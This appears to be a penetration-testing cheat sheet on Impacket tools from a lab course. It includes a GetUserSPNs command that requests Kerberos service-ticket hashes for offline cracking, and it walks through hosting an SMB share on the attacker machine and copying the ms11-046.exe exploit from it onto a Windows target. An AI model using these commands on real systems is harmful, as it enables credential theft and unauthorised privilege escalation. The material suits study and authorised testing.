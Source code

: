 ### GetUsersSPNs

This example will try to find and fetch Service Principal Names that are associated with normal user accounts. Output is compatible with JtR and HashCat. 

Get hashes: 

`GetUserSPNs.py -request -save -dc-ip <IP> domain/user` 

### SMBServer

A generic SMB client that will let you list shares and files, rename, upload and download files and create and delete directories, all using either username and password or username and hashes combination. It's an excellent example to see how to use impacket.smb in action. 

To get the server up and running on our local box, simple enter the following syntax: 

Starting the Server: 

/usr/bin/impacket-smbserver.py shareName sharePath {USE USERNAME and PASSWORD} 

* shareName - can be anything you want, but you’ll need to know this in order to connect back to the share 
* sharePath - the folder you want shared 

Using username and password smb smbv2: 

```text
smbserver.py -smb2support share . -username df -password df                                                                               
```



Example: 

```text
root@kali:~/pwk# impacket-smbserver smb tools/ 
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies 
[*] Config file parsed 
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0 
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 
[*] Config file parsed 
[*] Config file parsed 
[*] Config file parsed 
Connect to the server: 
C:\>net use 
\\10.11.0.XXX\smb
 
net use 
\\10.11.0.XXX\smb
 
The command completed successfully. 
```

#### Copy files: 

```text
C:\WINDOWS\Temp>copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe 
copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe 
        1 file(s) copied. 
```
